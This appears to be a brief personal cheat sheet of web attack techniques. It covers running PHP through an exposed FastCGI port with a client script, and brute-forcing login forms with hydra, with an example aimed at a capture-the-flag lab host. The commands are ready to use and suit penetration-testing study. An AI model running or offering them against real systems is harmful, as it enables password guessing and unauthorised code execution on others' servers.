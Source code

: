 # attacking web

## FastCGI

- https://github.com/adoy/PHP-FastCGI-Client
- use client to execute php script: `./fcgiget.php localhost:9000/tmp/exp.php`

## HTTP login forms

### hydra
```
hydra -l username -P wordlist ip/hostname http-form-post "/login.php:uname=^USER^&passwd=^PASS^&Submit=Login:error-text
e.g.
hydra -l harvey -P ~/wordlist/10k.txt internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&Submit=Login:Invalid Username or Password"
```
